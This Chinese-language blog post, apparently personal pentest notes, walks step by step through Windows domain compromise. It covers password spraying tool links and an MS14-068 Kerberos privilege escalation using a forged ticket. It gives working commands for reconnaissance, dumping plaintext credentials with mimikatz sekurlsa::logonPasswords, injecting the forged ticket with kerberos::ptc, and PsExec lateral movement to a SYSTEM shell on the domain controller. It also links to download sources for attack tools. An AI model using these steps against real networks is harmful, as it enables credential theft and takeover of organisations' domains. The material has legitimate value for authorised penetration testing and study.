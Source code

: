 ```yaml
---
layout: post
title:  内网渗透思路
categories: 安全知识
description:  内网渗透思路
keywords: 渗透
---
```


# 渗透流程


1. 收集域控信息
2. 密码爆破
3. 用户提权

# 渗透学习资料

干货！内网渗透测试之域渗透详解！收藏！：
https://www.freebuf.com/company-information/172630.html

[域渗透]导出域用户Hash方法总结

https://scarletf.github.io/2019/09/03/%E5%9F%9F%E6%B8%97%E9%80%8F-%E5%AF%BC%E5%87%BA%E5%9F%9F%E7%94%A8%E6%88%B7Hash%E6%96%B9%E6%B3%95/

内网笔记细节：（偏向细节）
https://apsry.github.io/2022/03/11/%E5%86%85%E7%BD%91%E5%AE%89%E5%85%A8%E6%94%BB%E9%98%B2%E7%AC%94%E8%AE%B0/

## 二、域密码喷洒

[利用一个powershell工具完成 DomainPasswordSpray
](https://blog.csdn.net/qq_41874930/article/details/109308519)
利用工具：[DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)


## 三、 用户提权

使用 Mimikatz

https://www.cnblogs.com/-mo-/p/11890232.html

# Kerberos域用户提权漏洞（MS14-068）分析与防范

**生效范围：**  windows (2003/2008/2012/7/8)

## 工具下载
Ms14-068.exe 下载地址:https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068

PSexec 下载地址:https://github.com/crupper/Forensics-Tool-Wiki/blob/master/windowsTools/PsExec64.exe

mimikatz 下载地址:https://github.com/gentilkiwi/mimikatz/releases


##  1、查看域控制器的补丁安装情况
微软针对 MS14-068 漏洞提供补丁为 `KB3011780` 。输入命令查看补丁情况：

```
wmic qfe get hotfixid 

```
![](https://ask.qcloudimg.com/http-save/yehe-5487096/0xwlav6oci.png?imageView2/2/w/1620)
可以看到域控机器没有安装补丁。

## 2、查看用户的 SID

以用户 mary 身份登录，输入命令查看 SID 为：S-1-5-21-1218902331-2157346161-1782232778-1124

```dotnetcli
whoami /user
```

还可以使用这条命令获取域内所有用户的 SID：

```
wmic useraccount get name,sid
```
## 3、查看域控制器的主机名

获取域控主机名 / IP 地址

```dotnetcli
net group "Domain controllers" /domain
********
ping 主机名

```

![](https://i.loli.net/2020/01/09/C8m2XV63IKjzMtd.png)

> 注意不要带 $ 符号

测试是否可以访问域控共享文件

```dotnetcli
dir \\域控主机名.域名\c$

```

![](https://i.loli.net/2020/01/09/SUmtaoL2AQMR5ZD.png)

可以看到显示 “拒绝访问”，这是正常，域普通用户当然没有权限访问域控共享文件，现在我们需要使用 MS14-068 提权。




## 4、利用ms14-068.exe 工具生成伪造的 kerberos 协议认证证书

MS14-068 需要几个必要的参数，SID、域用户名、域控地址，另外还需要密码，若没有密码可以使用–rc4 来使用 hsah 生成凭证

` ms-14-068.exe -u   域用户@域控名  -p 域用户密码 -s 域用户sid -d 域ip`

![](https://i.loli.net/2020/01/09/fD958LTjwCUNvJq.png)
例如：

进入 mimikatz

记住 `mimikatz 要有管理员权限`不然无法抓取内存密码，可以以管理员权限运行。

![](https://img2018.cnblogs.com/blog/1222663/201910/1222663-20191029171807870-1810720099.gif)

 输入`privilege::debug` 权限提升，在`输入 log `会在当前文件夹下生成后面命令执行的结果方便我们查找数据，最后输入`sekurlsa::logonPasswords `抓取密码

![](https://img2018.cnblogs.com/blog/1222663/201910/1222663-20191029172642038-1348450916.gif)

 会在当前目录生成mimikatz 日志文件

日志例如：
```dotnetcli

Authentication Id : 0 ; 434243 (00000000:00075558)
Session           : Interactive from 1
User Name         : zhangsan
Domain            : test
Logon Server      : ABF
Logon Time        : 2022/4/22 9:44:37
SID               : S-1-5-21-2872597263-2872597263-2872597263-1111
```

 
 成功获取到明文密码，也获取了域用户sid 和域控主机名

` MS14-068.exe -u <userName>@<domainName> -p <clearPassword> -s <userSid> -d <domainControlerAddr>`

![](https://img2018.cnblogs.com/blog/1222663/201910/1222663-20191029174506417-1917631510.png)


进入 mimikatz


```
kerberos::list   //查看当前凭证
kerberos::purge  //清除凭证
kerberos::list   //再次查看，确保无凭证
```

使用如下命令导入刚刚生成的伪造凭证

```
kerberos::ptc 凭证地址
```

再次访问域控的共享文件，即可发现已经成功列出目录了

>  `dir \\域控主机名.域名\c$`


![](https://i.loli.net/2020/01/09/rK3oDBlA2m8zdIx.png)

## 5. 使用 Psexec64.exe 横向移动

```dotnetcli
psesec.exe -accepteula \\IPaddress -s cmd.exe

```

![](https://i.loli.net/2020/01/09/tO6l25Wq3ak4VIT.png)

可以观察到命令提示符已经变了，且用户权限为域控的 system 权限（由于 Psexec64.exe 的 - s 原因）。看 IP 地址也可知晓已经成功登陆域控机器了。




# 知识拓展
2.查看域控制器的主机名
Nslookup -type=SRV _ldap._tcp

## 工具
https://github.com/gentilkiwi/kekeo


# 参考

[[后渗透]Mimikatz使用大全](https://www.cnblogs.com/-mo-/p/11890232.html)
https://cloud.tencent.com/developer/article/1760132

https://lionking.top/2020/01/09/MS14-068%E6%8E%92%E9%94%99+%E5%A4%8D%E7%8E%B0%E7%AC%94%E8%AE%B0/